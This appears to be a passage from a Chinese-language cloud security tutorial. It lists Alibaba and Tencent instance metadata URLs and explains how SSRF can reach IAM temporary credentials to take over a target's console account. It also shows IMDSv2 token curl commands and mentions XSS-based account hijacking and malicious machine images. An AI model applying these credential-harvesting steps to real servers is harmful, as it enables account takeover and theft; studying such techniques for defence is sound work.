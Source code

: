 ```shell

#alibaba

http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

#tencent
http://metadata.tencentyun.com/latest/meta-data/
```



通过访问元数据的 `/iam/security-credentials/<rolename>` 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行。

先访问`/iam/security-credentials/`获得rolename，然后访问`/iam/security-credentials/<rolename>`即可。



下面是价值较高的元数据：

```bash
mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
```





不过官方为了增强Metadata安全性，推出了IMDSv2，V2版本服务请求元数据要先PUT获取Token再带token请求，在一定程度上缓解了公有云环境下SSRF的危害:

```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```



### 账号劫持

如果云厂商的控制台存在漏洞的话，用户账号也会存在一定的风险。

例如 AWS 的控制台曾经出现过一些 XSS 漏洞，攻击者就可能会使用这些 XSS 漏洞进行账号劫持，从而获得目标云服务器实例的权限。



### 恶意镜像

AWS 在创建实例的时候，用户可以选择使用公共镜像或者自定义镜像，如果这些镜像中有恶意的镜像，那么目标使用该镜像创建实例就会产生风险。

在使用 AWS 命令行时应该确保自己使用的是不是最新版的 AWS 命令行，同时确保从可信的来源去获取 Amazon 系统镜像。
